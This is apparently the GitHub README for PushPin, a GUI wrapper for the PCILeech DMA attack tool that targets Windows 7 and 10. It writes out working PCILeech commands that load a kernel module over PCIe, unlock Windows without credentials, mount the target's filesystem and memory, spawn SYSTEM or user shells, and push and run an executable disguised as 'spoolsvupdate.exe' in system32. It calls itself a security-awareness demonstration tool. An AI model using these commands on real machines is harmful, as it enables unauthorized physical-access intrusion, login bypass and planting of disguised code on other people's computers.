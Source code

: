 ﻿# PushPin

Visual interface wrapper to PCILeech.

## Summary
PushPin is designed to provide a rapid, easy to use visual interface wrapper to a subset of the PCILeech projects capabilities. It also makes for a nice security awarness demonistration tool.

If you're not sure what PCILeech is please read up on the project first. https://github.com/ufrisk/pcileech

## Features

The GUI workflow is similar to the PCILeech CLI, first successfully load a KMD (KMD LOADERS) and then use the KMD address to load Kernel-mode implants (ACCESS). The following PCILeech kmdload, commands and Kernel-mode implants specfic to Windows Operating Systems are included. 

* Load a kernel module into Windows 7 or Windows 10 64-bit operating system  
* Unlock Windows 
* Mount the targets filesystem and memory
* SYSTEM or USER command shell
* Push and Execute a file on the target as SYSTEM

### PushPin GUI overview
![](pushpin_description.PNG) 

### KMD Loader Update
Please use WIN10_X64_3 and then WIN10_X64 if it fails. WIN10_X64_3 is currently stable accross versions of Windows 10 including Windows 10 2004 release. 

### Logging
PushPin provides a minimal level of logging of actions taken while using the GUI. The PushPinLog.txt log file is created or appended when an action is taken.

## System Requirements
Tested with [PCILeech Version 4.7](https://github.com/ufrisk/pcileech) and functions correctly with the commands listed above. You can download PCILeech precompiled binarys [here](https://github.com/ufrisk/pcileech/releases/download/v4.7/PCILeech_files_and_binaries_v4.7-20200907.zip).     

PushPin is developed in C# targeted for .NET Framework 4.5. Compile or use the precompiled PushPin.exe binary and place it into the the same directory as pcileech.exe. [Download the latest PushPin.exe](https://github.com/LuckyPi/PushPin/releases/latest).

At a miminum your directory should contain:
```
PushPin.exe
pcileech.exe
FTD3XX.dll
leechcore.dll
vmm.dll
wx64_filepush.ksh
wx64_pscmd.ksh
wx64_pscmd_user.ksh
wx64_pscreate.ksh
wx64_pslist.ksh
wx64_unlock.ksh
win7x64.kmd
```

#### <b>The following commands must work in the CLI for the GUI to work</b>

Load a kernel module into Windows 7x64 or Windows 10x64:
``` 
pcileech kmdload -kmd win7x64
pcileech kmdload -kmd win10_x64
pcileech kmdload -kmd win10_x64_3 -memmap auto 
```
*pcileech kmdload -kmd win10_x64 -memmap auto* - integrates with MemProcFS 

Unlock Windows:
```
pcileech wx64_unlock -kmd kmdaddress -0 1
```

Mount the targets filesystem and memory:
```
pcileech.exe mount -kmd kmdaddress
```

Command shell access as SYSTEM or USER:
```
pcileech wx64_pscmd -kmd kmdaddress
pcileech wx64_pscmd_user -kmd kmdaddress
```

Push and execute a file on the target:
```
pcileech wx64_filepush -kmd kmdaddress -in infile.exe -s \??\c:\windows\system32\spoolsvupdate.exe 
pcileech wx64_pscreate -kmd kmdaddress -s c:\windows\system32\spoolsvupdate.exe -0 syspid -4 1
```

## Disclaimer
Use at your own risk. This code is provided for educational purposes ONLY. Developers assume no liability and shall not be held responsible for any damage that may result from use or misuse of the provided code. It's the end users responsibility to obey all applicable local, state, federal and country specfic laws.  

### Changelog
v1.0 
 * Initial release.

v1.1
* Updated to reflect WIN10_X64_3 kernel module
